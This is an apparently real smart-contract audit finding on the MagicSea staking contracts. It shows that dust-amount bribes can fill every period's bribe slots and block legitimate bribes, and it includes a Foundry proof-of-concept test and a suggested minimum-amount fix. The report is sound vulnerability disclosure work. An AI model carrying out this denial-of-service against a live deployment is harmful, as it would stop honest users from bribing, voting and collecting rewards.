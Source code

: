 Bumpy Wool Mockingbird

High

# Malicious users can block BribeRewarder's normal bribe operation

## Summary
BribeRewarder's _bride logic will call Voter's onRegister, inside onRegister a require check make sure that bribesPerPriod is no large than Constants.MAX_BRIBES_PER_POOL. 

```solidity
        require(_bribesPerPriod[periods[i]][pool].length + 1 <= Constants.MAX_BRIBES_PER_POOL, "too much bribes");
```
However, malicious users can exploit this check to block normal bribe operation by creating large number of brides to each period using dust amount token payment.

## Vulnerability Detail
Below steps show how malicious users can block normal bribe operation for a Voter and its pool.
1) Assume that Alice is a normal user, and Bob is a malicious user. 
2) Bob creates at least Constants.MAX_BRIBES_PER_POOL BribeRewarder instances using RewarderFactory
3) Bob use each BribeRewarder instances to call fundAndBribe, with a very large lastId but a very small amountPerPeriod.
4) By this malicious operations, Bob's BrideRewarders will fill up Voter's _bribesPerPriod from startId to a very large lastId. When Alice want to do her bribe operation, she will find out that almost every period can't  be used. Because for every period, the check inside Voter's onRegister about _bribesPerPriod will revert for exceeds Constants.MAX_BRIBES_PER_POOL.

Related PoC code is:
```solidity
        // …
        // Create BribeRewarder and prepare tokens
        vm.startPrank(alice);
        rewarder = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, address(_pool)))));
        vm.stopPrank();

        vm.startPrank(bob);
        for(int i = 0; i < 5; i++) {
            BribeRewarder tmp = BribeRewarder(payable(address(factory.createBribeRewarder(rewardToken, address(_pool)))));
            bobArray.push(payable(address(tmp)));
        }
        vm.stopPrank();

        vm.startPrank(DEV);
        ERC20Mock(address(rewardToken)).mint(bob, 20e18);
        ERC20Mock(address(rewardToken)).mint(alice, 20e18);
        vm.stopPrank();

        // Malicious Call
        // Bob do malicious bribe with dust amount of payment
       vm.startPrank(bob);
        for(uint256 i = 0; i < 5; i++) {
            BribeRewarder eachBR = BribeRewarder(bobArray[i]);
            ERC20Mock(address(rewardToken)).approve(address(eachBR), 20e18);
            // endId can be very large 
            eachBR.fundAndBribe(1, 50000, 1e1);
        }
        vm.stopPrank();

        // normal user alice can't do normal bribe
        vm.startPrank(alice);
        ERC20Mock(address(rewardToken)).approve(address(rewarder), 20e18);
        vm.expectRevert(bytes("too much bribes"));
        rewarder.fundAndBribe(1, 2, 10e18);
        vm.stopPrank();
```
## Impact
Malicious users can block Voter and pool's bribe operation using dust amount of funds.
Even though Voter owner could using startNewVotingPeriod call to skip hacked VotingPeriod, malicious users can still listen to this operation and block more VotingPeriod. 
Thusly, normal bribe, voting and reward process can't happens as expected.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/Voter.sol#L130-L144
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/rewarders/BribeRewarder.sol#L226-L258

## Tool used
Manual Review

## Recommendation
Set minimal bribe amount to prevent users doing dust amount of bribes
